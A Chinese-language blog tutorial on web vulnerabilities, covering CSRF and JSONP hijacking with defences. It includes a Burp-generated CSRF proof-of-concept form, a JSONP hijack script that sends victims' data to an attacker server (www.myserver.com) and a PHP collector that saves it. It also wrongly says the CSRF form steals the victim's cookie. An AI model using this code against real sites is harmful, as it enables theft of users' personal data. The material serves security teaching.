 ```yaml
---
layout: post
title: web常见漏洞二
categories: 网络安全
description: web常见漏洞二
keywords: web常见漏洞,CSRF,JSONP,SSRF,反序列化
---
```


web常见漏洞：CSRF,JSONP,CORS,SSRF,反序列化等

### 1、CSRF漏洞

CSRF 定义： 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者session riding，通常缩写为 CSRF ， 是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

csrf 漏洞攻击原理

1. 用户打开浏览器，访问登陆受信任的 A 网站
2. 在用户信息通过验证后，服务器会返回一个 cookie 给浏览器，用户登陆网站 A 成功，可以正常发送请求到网站 A
3. 用户未退出网站 A，在同一浏览器中，打开一个危险网站 B
4. 网站 B 收到用户请求后，返回一些恶意代码，并发出请求要求访问网站 A
5. 浏览器收到这些恶意代码以后，在用户不知情的情况下，利用 cookie 信息，向网站 A 发送恶意请求，网站A 会根据 cookie 信息以用户的权限去处理该请求，导致来自网站 B 的恶意代码被执行

#### 1.1 csrf攻击

攻击方式有两种：

1. 受害者登录网站后，没有退出的情况下，访问网站 b 触发
2. 在存在漏洞的网站，挖掘 xss 漏洞，自动调用这 poc.html

第一种攻击方式使用burp suite抓包，然后右键 =》`engagementtools` =》`generate CSRF PoC`，在弹出的页面内点击`COPY HTML`，然后新建一个html文件，把复制的放进去。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.3.16/06/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="1" />
      <input type="hidden" name="phonenum" value="1" />
      <input type="hidden" name="add" value="1" />
      <input type="hidden" name="email" value="1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

这个就是伪造的B页面了，当被攻击者点击提交(正常攻击大概率不会是点击事件，而是直接请求一个payload)，然后就拿到了被攻击者的cookie，然后我们就可以篡改他要修改的内容为我们定义的内容了，甚至可以直接取代他，成为他。

#### 1.2 CSRF  防御方案

CSRF现在已经比较少了，防御办法也很简单

1. 增加 Token 验证（常用做法）：对关键操作增加 Token 参数，token 必须随机，每次都不一样
2. 关于安全的会话管理（避免会话被利用）：
   1. 不要在客户端保存敏感信息（比如身份验证信息）
   2. 退出、关闭浏览器时的会话过期机制
   3. 设置会话过机制，比如 15 分钟无操作，则自动登录超时
3. 访问控制安全管理：
   1. 敏感信息的修改时需要身份进行二次认证，比如修改账号密码，需要判断旧密码
   2. 敏感信息的修改使用 POST，而不是 GET
   3. 通过 HTTP 头部中的 REFERER 来限制原页面
4. 增加验证码：一般在登录（防暴力破解），也可以用在其他重要信息操作的表单中（需要考虑可用性）

### 2、jsonp漏洞

Jsonp(JSON with Padding) 是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据。

攻击者模拟用户向有漏洞的服务器发送 JSONP 请求，然后就获取到了用户的某些信息，再将这些信息发送到攻击者可控的服务。

jSONP 的最基本的原理是：动态添加一个< script >标签，而 script 标签的 src 属性是没有跨域的限制的。由于同源策略的限制，XmlHttpRequest 只允许请求当前源(域名、协议、端口都相同)的资源，如果要进行跨域请求， 我们可以通过使用 html 的 script 标记来进行跨域请求，并在响应中返回要执行的 script 代码，其中可以直接使用 JSON 传递 javascript 对象。

考虑这样一种情况，存在两个网站 A 和 B，网站A是黑客构建的一个网站，网站B是一个正常的网站，用户在网站 B 上注册并且填写了自己的用户名，手机号，身份证号等信息，并且网站 B 存在一个 jsonp 接口，用户在访问网站 B 的时候。这个 jsonp 接口会返回用户的个人信息，并在网站 B 的 html 页面上进行显示。如果网站 B 对此 jsonp 接口的来源验证存在漏洞，那么当用户访问网站 A 时，网站 A 便可以利用此漏洞进行 JSONP 劫持来获取用户的信息。

攻击方法与 csrf 类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取 json 数据，把 json 数据发送给攻击者。寻找敏感 json 数据 api 接口，构造恶意的代码。发送给用户，用户访问有恶意的页面，数据会被劫持发送到远程服务器。

demo服务端代码：

```php
<?php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"id":"1","name":"test"})';
?>
```

demoHTML页面代码

```html
<script>
function jsonp2(data){
    alert(JSON.stringify(data));
}
</script>
<script src="http:target.com/user.php?callback=jsonp2"></script>
```

构建攻击：

服务端代码：

```php
<?php
if($_GET['file']){
	file_put_contents('json.txt',$_GET['file']);
}
?>
```

jsonp劫持代码

```html
<script>
function test(data){
    var xmlhttp = new XMLHttpRequest();
    // 获取到数据，然后发送到自己的服务端
    var url = "http://www.myserver.com/1.php?file=" + JSON.stringify(data);
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
}
</script>
<!--www.target.com 原本的服务端的地址，只是控制了jsonp的变量名 原本为jsonp2，修改为test，test为自己构建的代码 -->
<script src="http://www.target.com/user.php?callback=test"></script>
```

当受害人登入构建的网站之后 访问这个页面时，会自动把接口 user.php 的敏感信息发送到远程服务器上，如果获取到信息就会在远程服务器上生成 json.txt。

#### 2.1 jsonp防御

json 正确的 http 头输出尽量避免跨域的数据传输，对于同域的数据传输使用 xmlhttp 的方式作为数据获取的方式，依赖于 javascript 在浏览器域里的安全性保护数据，如果是跨域的数据传输，必须要对敏感的数据获取做权限认证。

